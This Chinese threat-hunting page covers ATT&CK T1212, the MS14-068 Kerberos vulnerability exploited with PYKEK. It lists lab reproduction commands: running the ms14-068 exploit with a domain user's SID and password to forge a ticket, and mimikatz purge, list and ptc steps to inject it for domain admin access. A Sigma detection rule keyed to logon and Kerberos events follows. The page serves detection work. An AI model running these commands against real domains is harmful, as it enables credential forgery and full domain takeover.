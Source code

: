 # T1212-windows-MS14-068-PYKEK

## 来自ATT&CK的描述

攻击者可能会利用软件漏洞来尝试收集凭据。当攻击者利用程序，服务或操作系统软件或内核本身内的编程错误来执行攻击者控制的代码时，就会利用软件漏洞。凭据和身份验证机制可能会被攻击者利用，以此作为获取有用凭据的途径或规避获取系统访问权限的过程。其中一个示例是MS14-068，它针对Kerberos，可用于使用域用户权限伪造Kerberos票证.对凭据访问的利用还可能导致特权升级，具体取决于目标过程或获取的凭据。

## 测试案例

可参考：[内网渗透之PTH&PTT&PTK](https://www.bbsmax.com/A/A7zgkjRPz4/)

## 检测日志

windows 安全日志（AD域控日志）

## 测试复现

测试步骤

域控主机（Windows server 2008）
域内主机（Windows 7 SP1）

```cmd
whoami /user #域内主机查找当前用户SID
dir \\DC\C$  #查看访问DC的权限
ms14-.exe -u 域成员名@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码 #域机器是可以和域控制器互通则会创建.ccache文件
```

票据注入

```cmd
mimikatz # kerberos::purge         //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
mimikatz # kerberos::list          //查看当前机器凭证
mimikatz # kerberos::ptc 票据文件   //将票据注入到内存中
```

使用mimikatz将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器

## 测试留痕

测试留痕文件：[MS14-068-PYKEK-windows.log](https://github.com/12306Bro/Threathunting-book/tree/master/Eventdata/MS14-068/PYKEK)

## 检测规则/思路

```yml
title: MS14-068-PYKEK
description: windows server 2008 / windows 7
references: https://github.com/ThreatHuntingProject/ThreatHunting/blob/master/hunts/golden_ticket.md
tags: T1212
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: Security
detection:
    selection1:
        EventID: 4624 #账户登录
        Account Domain: '*.*' #新登录>账户域(正常情况下，账户域应为ABC，当存在PYKEK攻击时，账户域为ABC.COM)
        Account Name: '*' #新登录>账户名(不同于安全标识的帐户，此条件实现起来较为复杂)
    selection2:
        EventID: 4672 #管理员登录
        Account Domain: '*.*' #账户域(正常情况下，账户域应为ABC，当存在PYKEK攻击时，账户域为ABC.COM)
    selection3:
        EventID: 4768 #Kerberos TGS请求
        Supplied Realm Name: '*.*' #已提供的领域名称(正常情况下，已提供的领域名称应为ABC，当存在PYKEK攻击时，已提供的领域名称为ABC.COM)
    timeframe: last 5s
    condition: all of them
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1212

<https://attack.mitre.org/techniques/T1212/>

内网渗透之PTH&PTT&PTK

<https://www.bbsmax.com/A/A7zgkjRPz4/>
